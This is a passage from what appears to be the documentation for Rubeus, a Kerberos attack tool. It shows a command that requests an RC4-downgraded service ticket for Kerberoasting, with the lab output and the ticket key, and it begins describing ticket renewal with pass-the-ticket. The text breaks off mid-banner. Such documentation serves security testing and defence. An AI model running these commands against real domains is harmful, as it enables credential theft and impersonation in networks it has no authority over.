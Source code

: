 
Requesting a service ticket for an AES-enabled service account, specifying that we _only_ support RC4_HMAC:

    C:\Rubeus>Rubeus.exe asktgs /ticket:doIFmjCCBZagAwIBBaEDAgEWoo...(snip).../service:roast/me /enctype:rc4

     ______        _
    (_____ \      | |
     _____) )_   _| |__  _____ _   _  ___
    |  __  /| | | |  _ \| ___ | | | |/___)
    | |  \ \| |_| | |_) ) ____| |_| |___ |
    |_|   |_|____/|____/|_____)____/(___/

    v1.4.1

    [*] Action: Ask TGS

    [*] Using domain controller: PRIMARY.testlab.local (192.168.52.100)
    [*] Requesting 'rc4_hmac' etype for the service ticket
    [*] Building TGS-REQ request for: 'roast/me'
    [+] TGS request successful!
    [*] base64(ticket.kirbi):

        doIFrjCCBaqgAwIBBaEDA...(snip)...

    [*] Action: Describe Ticket

    UserName              :  dfm.a
    UserRealm             :  TESTLAB.LOCAL
    ServiceName           :  roast/me
    ServiceRealm          :  TESTLAB.LOCAL
    StartTime             :  2/25/2019 3:10:59 PM
    EndTime               :  2/25/2019 8:09:54 PM
    RenewTill             :  3/4/2019 3:09:54 PM
    Flags                 :  name_canonicalize, pre_authent, renewable, forwardable
    KeyType               :  rc4_hmac
    Base64(key)           :  Gg3zZicIl5c50KGecCf8XA==


### renew

The **renew** action will build/parse a raw TGS-REQ/TGS-REP TGT renewal exchange using the specified `/ticket:X` supplied. This value can be a base64 encoding of a .kirbi file or the path to a .kirbi file on disk. If a `/dc` is not specified, the computer's current domain controller is extracted and used as the destination for the renewal traffic. The `/ptt` flag will "pass-the-ticket" and apply the resulting Kerberos credential to the current logon session.

Note that TGTs MUST be renewed before their EndTime, within the RenewTill window.

    C:\Rubeus>Rubeus.exe renew /ticket:ticket.kirbi /ptt

     ______        _
    (_____ \      | |
     _____) )_   _| |__  _____ _   _  ___
    |  __  /| | | |  _ \| ___ | | | |/___)
    | |  \ \| |_| | |_) ) ____| |_| |___ |
    |_|   |_|____/|____/|_____)____/(___/
